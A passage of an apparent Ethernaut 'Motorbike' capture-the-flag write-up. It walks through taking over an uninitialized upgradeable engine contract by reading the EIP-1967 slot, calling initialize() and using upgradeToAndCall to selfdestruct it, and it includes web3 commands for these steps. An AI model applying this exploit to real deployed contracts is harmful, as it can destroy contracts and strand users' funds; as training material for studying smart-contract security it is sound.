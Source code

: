 ```sol
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
    
    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
        
        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

This contract also follows a upgradable proxy pattern and it also implements [EIP-1967: Standard Proxy Storage Slots](https://eips.ethereum.org/EIPS/eip-1967) to maintain the storage slots related to proxy.

We need to `selfdestruct` the engine contract. We can call the `engine` contract through the `motorbike` contract or directly with the `engine` contract address, in order to destroy the engine we need to work with the storage of the `engine` contract, so delegate calling from `motorbike` won't help us.
We need to find the address of the `engine` contract, according to the EIP-1967 standards the address of logic contract will be stored at slot  `_IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;`
Now we have the `engine` contract address.

In order to update the address at slot `_IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;` we need to be the upgrader. We will use `initialize` function to become the upgrader. Hence that gives us the permission to call `upgradeToAndCall` function through we can update the implementation to our exploit contract which can `selfdestruct` the `engine`.

> #### Solution:
> - Get the address of the `engine` contract.
> ```js
> await web3.eth.getStorageAt(instance, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc");
> // 0x0000000000000000000000008d989014e1a52e12c870613109d2bb3ee0ec56f9
> engine = "0x" + "0x0000000000000000000000008d989014e1a52e12c870613109d2bb3ee0ec56f9".substring(26);
> // 0x8d989014e1a52e12c870613109d2bb3ee0ec56f9
> ```
> 
> - Call the initialize of engine to become the upgrader.
> ```js
> await sendTransaction({
>     from: player,
>     to: engine,
>     data: web3.eth.abi.encodeFunctionSignature("initialize()")
> });
> ```
> 
> - Deploy the exploit contract and call the `upgradeToAndCall` function to update and delegate call the implementation.
> ```js